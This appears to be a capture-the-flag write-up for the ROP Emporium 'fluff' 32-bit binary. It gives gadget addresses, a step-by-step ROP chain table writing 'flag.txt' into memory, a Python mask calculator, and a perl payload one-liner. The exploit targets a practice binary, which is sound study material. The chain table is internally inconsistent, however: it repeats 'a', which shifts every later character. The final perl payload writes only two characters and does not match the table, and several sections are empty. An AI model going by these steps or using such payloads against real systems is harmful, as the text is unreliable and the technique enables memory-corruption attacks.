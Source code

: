 # fluff
The challenge is available [here](https://ropemporium.com/challenge/fluff.html).

## Black-Box Test

## In-depth research

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                                      |
|---------------|-----------------|------------|----------------------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                                              |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed.                |
| pop_bswap_cx        | Gadget          | 0x08048558 | pop ecx;<br />bswap ecx;<br />ret;                                                         |
| pop_bp        | Gadget          | 0x080485bb | pop ebp;<br />ret;                                                                    |
| prepare_dx       | Gadget          | 0x08048543 | mov eax, ebx;<br />mov ebx, 0xb0bababa;<br />pext edx, ebx, eax;<br />mov eax, 0xdeadbeef; ret; |
| exchange_byte | Gadget          | 0x08048555 | xchg BYTE PTR [exc], dl;<br />ret;                                                    |

And the next table describes the ROP chain itself:

| No | Chain Link                          | Note                                                                                                                                                                                                                                                                                |
|----|-------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                    |                                                                                                                                                                                                                                                                                     |
| 2  | pop_bswap_cx, `memory4string`       | `memory4string` in big-endian.                                                                                                                                                                                                                                                      |
| 3  | pop_bp, get_mask(`"f"`)               | The function `get_mask` calculates the bit sequence needed<br/>for a register that serves as a mask in the `xchg` instruction<br/>(with a constant value of `0xdeadbeef` on which the mask operates)<br/>so that the operation produces the desired character. In this case, `"f"`. |
| 4  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 5  | exchange_byte                       | After this operation, the string will be `"f"`                                                                                                                                                                                                                                      |
| 6  | pop_bswap_cx, `memory4string+1`     | `memory4string+1` in big-endian.                                                                                                                                                                                                                                                    |
| 7  | pop_bp, get_mask(`"l"`)             |                                                                                                                                                                                                                                                                                     |
| 8  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 9  | exchange_byte                       | After this operation, the string will be `"fl"`                                                                                                                                                                                                                                     |
| 10 | pop_bswap_cx, `memory4string+2`     | `memory4string+2` in big-endian.                                                                                                                                                                                                                                                    |
| 11 | pop_bp, get_mask(`"a"`)             |                                                                                                                                                                                                                                                                                     |
| 12 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 13 | exchange_byte                       | After this operation, the string will be `"fla"`                                                                                                                                                                                                                                    |
| 14 | pop_bswap_cx, `memory4string+3`     | `memory4string+3` in big-endian.                                                                                                                                                                                                                                                    |
| 15 | pop_bp, get_mask(`"a"`)             |                                                                                                                                                                                                                                                                                     |
| 16 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 17 | exchange_byte                       | After this operation, the string will be `"fla"`                                                                                                                                                                                                                                    |
| 18 | pop_bswap_cx, `memory4string+4`     | `memory4string+4` in big-endian.                                                                                                                                                                                                                                                    |
| 19 | pop_bp, get_mask(`"g"`)             |                                                                                                                                                                                                                                                                                     |
| 20 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 21 | exchange_byte                       | After this operation, the string will be `"flag"`                                                                                                                                                                                                                                   |
| 22 | pop_bswap_cx, `memory4string+5`     | `memory4string+5` in big-endian.                                                                                                                                                                                                                                                    |
| 23 | pop_bp, get_mask(`"."`)             |                                                                                                                                                                                                                                                                                     |
| 24 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 25 | exchange_byte                       | After this operation, the string will be `"flag."`                                                                                                                                                                                                                                  |
| 26 | pop_bswap_cx, `memory4string+6`     | `memory4string+6` in big-endian.                                                                                                                                                                                                                                                    |
| 27 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 28 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 29 | exchange_byte                       | After this operation, the string will be `"flag.t"`                                                                                                                                                                                                                                 |
| 30 | pop_bswap_cx, `memory4string+7`     | `memory4string+7` in big-endian.                                                                                                                                                                                                                                                    |
| 31 | pop_bp, get_mask(`"x"`)             |                                                                                                                                                                                                                                                                                     |
| 32 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 33 | exchange_byte                       | After this operation, the string will be `"flag.tx"`                                                                                                                                                                                                                                |
| 34 | pop_bswap_cx, `memory4string+8`     | `memory4string+8` in big-endian.                                                                                                                                                                                                                                                    |
| 35 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 36 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 37 | exchange_byte                       | After this operation, the string will be `"flag.txt"`                                                                                                                                                                                                                               |
| 38 | print_file, `"XXXX"`, memory4string |                                                                                                                                                                                                                                                                                     |



```python
def get_mask(target, value):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]

    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits

        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    mask = int(mask_bits, 2)
    return mask

for c in "flag.txt":
    print(hex(get_mask(c, 0xb0bababa)), c)
```

```
perl -e 'print "X"x44 . "\xbb\x85\x04\x08" . "\x4b\x4b\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x18" . "\x55\x85\x04\x08" ."\xbb\x85\x04\x08" . "\xdd\x46\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x19" . "\x55\x85\x04\x08". "\xd0\x83\x04\x08" . "XXXX" . "\x18\xa0\x04\x08"' | ./fluff32
```